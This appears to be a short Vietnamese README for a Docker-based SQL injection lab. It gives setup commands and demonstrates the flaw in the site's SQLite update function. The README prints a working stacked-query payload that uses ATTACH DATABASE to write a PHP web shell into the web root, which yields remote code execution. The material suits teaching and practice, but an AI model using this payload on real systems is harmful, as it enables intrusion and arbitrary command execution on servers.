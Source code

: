 ## Vào thư mục chứa Dockerfile và run command: 

`docker build -t sql_oob .`

`docker run sql_oob`

## Khai thác lỗi SQLi

Trang web dùng CSDL Sqlite3

### Nơi xảy ra lỗi

Các chức năng: insert, update

Demo chức năng update:

Payload: `'; ATTACH DATABASE '/var/www/html/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn(dataz) VALUES ("<?php system($_GET['cmd']) ?>"); --`

Sửa request:

![image](https://user-images.githubusercontent.com/86275419/222055491-28ef0953-cbad-4f0a-9f0a-e5e87d94f238.png)

Kết quả: có thể RCE tùy vào mục đích 

![image](https://user-images.githubusercontent.com/86275419/222056384-c2a45854-4531-40e6-a78d-2ceb515c2c59.png)



